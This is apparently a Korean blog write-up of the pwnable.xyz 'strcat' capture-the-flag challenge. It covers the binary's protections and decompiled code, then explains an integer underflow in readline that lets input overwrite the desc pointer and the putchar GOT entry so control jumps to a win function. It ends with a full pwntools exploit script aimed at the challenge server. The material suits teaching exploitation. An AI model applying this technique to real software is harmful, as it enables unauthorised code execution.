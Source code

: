 ```yaml
---
title: "[pwnable.xyz]strcat"
date: 2020-1-30
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


Canary, PIE가 안걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

바이너리는 3개 메뉴로 되어있다. concat, edit, print 으로 되어있다.

concat메뉴는 maxlen-strlen(name) 만큼 입력받고 maxlen에서 readline 리턴 값만큼 빼준다.

edit메뉴는 desc 힙영역에 값 수정할 수 있다.

print메뉴에서는 fsb가 터진다.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed __int64 v3; // rsi
  char *v4; // rdi
  int v5; // eax
  int v6; // ebx
  unsigned int v7; // ebx

  setup();
  puts("My strcat");
  maxlen = 128;
  printf("Name: ", argv);
  maxlen -= readline(name, 128);
  desc = malloc(32uLL);
  printf("Desc: ", 128LL);
  v3 = 32LL;
  v4 = desc;
  readline(desc, 32);
  while ( 1 )
  {
    print_menu(v4, v3);
    printf("> ");
    v5 = read_int32();
    switch ( v5 )
    {
      case 2:                                   // edit
        printf("Desc: ");
        v3 = 32LL;
        v4 = desc;
        readline(desc, 32);
        break;
      case 3:                                   // print
        printf(name);
        printf(desc);
        v4 = '\n';
        putchar('\n');
        break;
      case 1:                                   // concat
        printf("Name: ");
        v6 = maxlen;
        v7 = v6 - strlen(name);
        v3 = v7;
        v4 = &name[strlen(name)];
        maxlen -= readline(v4, v7);
        break;
      default:
        v4 = "Invalid";
        puts("Invalid");
        break;
    }
  }
}
```

readline 함수인데 리턴을 strlen(name) - 1을 해준다.

```c
__int64 __fastcall readline(void *a1, int a2)
{
  int v2; // eax

  read(0, a1, a2);
  v2 = strlen(name);
  *(a1 + v2 - 1) = 0;
  return (v2 - 1);
}
```

이를 이용해서 풀 수 있다. strlen(name) -1을 해줘서 리턴하는데 만약 1번 메뉴에서 maxlen -= readline() 해주는데 strlen(name)의 길이가 0이면 readline 리턴이 -1이니까 maxlen을 계속 늘려줄 수 있다.

```
maxlen 0x0000000000602280 (32)
name 0x00000000006022A0 (128)
desc 0x0000000000602320
```

bss 영역이 이렇게 있고 maxlen이 128인데 maxlen을 늘려서 desc를 덮을 수 있다. 그리고 desc에는 힙 영역을 가르키고 있으므로 이 영역을 함수 got로 덮고 edit 메뉴에서 이 got를 win함수로 덮어주면 된다

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30013)
sla = lambda x,y : p.sendlineafter(x,y)
sa = lambda x,y : p.sendafter(x,y)
win = e.symbols['win']
maxlen = 0x0000000000602280
name = 0x00000000006022A0
desc = 0x0000000000602320
puts_got = 0x602028

sa(':','A') # Name
sa(':','B') # Desc

for i in range(20):
	sa('>','1')
	sa(':','\x00')

sa('>','1')
sa(':','A'*128+'\x20\x20\x60\x20') # 0000000000602020 R_X86_64_JUMP_SLOT  putchar@GLIBC_2.2.5

sa('>','2')
sa(':',p64(win)) # putcahr@got -> win
# raw_input()

sa('>','3') 

p.interactive()
```

